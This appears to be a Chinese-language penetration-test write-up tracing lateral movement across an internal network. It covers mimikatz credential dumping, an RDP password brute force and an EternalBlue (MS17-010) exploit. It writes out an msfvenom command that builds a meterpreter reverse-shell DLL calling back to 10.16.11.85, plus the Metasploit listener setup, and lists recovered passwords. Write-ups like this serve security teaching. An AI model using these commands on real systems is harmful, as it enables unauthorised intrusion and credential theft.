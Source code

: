 ![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16m7pC7mpEKQeRXYKwkiakBM8RibPnHr1Pia9oibdvzRPKsSzJ0POKbL6K0zw/640?wx_fmt=png)

``攻击路径：10.46.1.16=192.168.122.16->192.168.122.11->192.168.122.15->192.168.122.54->192.168.122.60->192.168.122.8->192.168.122.6``

攻击路径

192.168.122.16->192.168.122.11
------------------------------

使用自行创建的管理员权限的`asp.net`账户登录后，运行`mimikatz`抓到了`administrator`用户的密码

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mnwrjLAdyyicKqY2rUb8A6ZyFAwdTUGFk7KPqeFbjDcOwNxl7XX8QCGw/640?wx_fmt=png)

然后使用`administrator`用户登录`192.168.122.16`，发现在`mstsc`中有`192.168.122.11`的历史连接记录并且保存了帐号密码，连接上后发现是`administrator`用户，再次抓取`192.168.122.11`密码，发现密码与`.16`的一样，并且在桌面发现了数据库连接密码，保存备用

192.168.122.11->192.168.122.15
------------------------------

由于内网中已有 2 台主机密码一样，将密码做成字典后对`192.168.122.0/24`进行了 RDP 爆破，发现`192.168.122.15`的密码也为`Dell123456`，逐拿下第三台

192.168.122.15->192.168.122.54->192.168.122.60
----------------------------------------------

由于`192.168.122.60`这台主机存在`ms17-010`漏洞，MSF 的代理隧道不稳定，决定利用 BPF 中的`Eternalblue`模块进行攻击，对相关文件进行代理设置后

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mXib0hmBodcAksGexH3ojCNevYFpwgs7ficLPg6T1LI65nYYrnnaibQmKQ/640?wx_fmt=png)

由 kali 机生成 meterpreter 木马并设置监听

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.16.11.85  LPORT=4444 -f dll >~/backdoor_x64.dll`

```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lport 4444
lport => 4444
msf5 exploit(multi/handler) > set lhost 10.16.11.85
lhost => 10.16.11.85
msf5 exploit(multi/handler) > run
```

设置好 BPF 后，对`192.168.122.54`进行了攻击并获得了一个`system`权限的 shell  

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mwNNuibvjWB6RTrXQXY20VZ0ZVibouBtBXhGknGYO4zs3PHUMjPjQfSNg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mqJayy8icQGkIrLnw4dB04TvqBV2Hh4iaPbgdkyObJPWV5eTfBmHVEChg/640?wx_fmt=png) 随后使用`mimikatz`读密码

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16mJn0tHUE3F5sUUYRDfwHqNYibiabv9Q4wUNmia3JhvYdjHKZjJHiaoohia1Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0O7ep2c6dwM9R2o7vQEEWjmym0wRW16m6I8MtXQhwAF1M1vJWPiaiaRtqZfoyxYMWrAZDEEvFShibaJJKbfEjl3fQ/640?wx_fmt=png)

得到密码为`Admin@123`，同样的方法对`192.168.122.60`进行了攻击，密码一样为`Admin@123`，同时 check 出这两台机器为虚拟机
